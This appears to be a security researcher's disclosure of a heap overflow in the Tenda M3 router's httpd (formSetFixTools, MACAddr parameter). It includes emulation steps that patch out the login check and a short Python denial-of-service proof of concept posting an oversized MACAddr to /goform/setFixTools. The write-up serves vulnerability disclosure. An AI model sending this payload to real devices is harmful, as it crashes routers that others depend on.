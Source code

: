 # Tenda M3 contains heap Overflow Vulnerability

## overview

- type: heap overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a heap buffer overflow. The vunlerability is in fucntion `formSetFixTools` 

It calls `malloc(0x28)` to allocate heap buffer, and it  copies POST parameter`MACAddr` tp heap buffer. 

![image-20220819225634877](readme.assets/image-20220819225634877.png)

It didn’t check the value of `v23` and calls `strncpy`, so there is a heap overflow. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service) **(We need to send request twice)**

```python
import requests

data = {
    "networkTool": "3",
	"operation": "start", 
	"MACAddr": "a"*0x800
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setFixTools", data=data, cookies=cookies)
print(res.content)
res = requests.post("http://127.0.0.1/goform/setFixTools", data=data, cookies=cookies)
print(res.content)
```

![image-20220819225829292](readme.assets/image-20220819225829292.png)

![image-20220819225959290](readme.assets/image-20220819225959290.png)